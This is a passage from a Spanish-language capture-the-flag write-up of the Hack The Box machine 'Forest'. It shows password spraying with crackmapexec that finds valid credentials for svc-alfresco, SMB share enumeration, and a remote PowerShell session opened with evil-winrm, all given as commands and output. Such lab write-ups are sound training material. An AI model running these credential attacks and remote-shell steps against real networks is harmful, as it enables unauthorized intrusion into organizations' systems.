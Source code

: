```bash
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailboxfd87238:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailboxb01ac64:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailbox7108a4e:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\HealthMailbox0659cc1:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\sebastien:s3rvice
WINRM       10.10.10.161    5985   FOREST           [-] htb.local\lucinda:s3rvice
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

- Tenemos permiso de lectura en esos recursos.

```bash
❯ crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
SMB         10.10.10.161    445    FOREST           [+] Enumerated shares
SMB         10.10.10.161    445    FOREST           Share           Permissions     Remark
SMB         10.10.10.161    445    FOREST           -----           -----------     ------
SMB         10.10.10.161    445    FOREST           ADMIN$                          Remote Admin
SMB         10.10.10.161    445    FOREST           C$                              Default share
SMB         10.10.10.161    445    FOREST           IPC$                            Remote IPC
SMB         10.10.10.161    445    FOREST           NETLOGON        READ            Logon server share 
SMB         10.10.10.161    445    FOREST           SYSVOL          READ            Logon server share 
```

- Nos podemos conectar a cualquier recurso compartido donde tengamos privilegio de lectura pero enumerando no encontré nada interesante.

```bash
❯ smbclient //10.10.10.161/SYSVOL -U svc-alfresco%s3rvice
Try "help" to get a list of possible commands.
smb: \> 
```

## Shell as svc-alfresco

- Bueno después de enumerar otras cosas que no encontré muchas cosas vamos a conectarnos con `evil-winrm`.

```bash
❯ evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
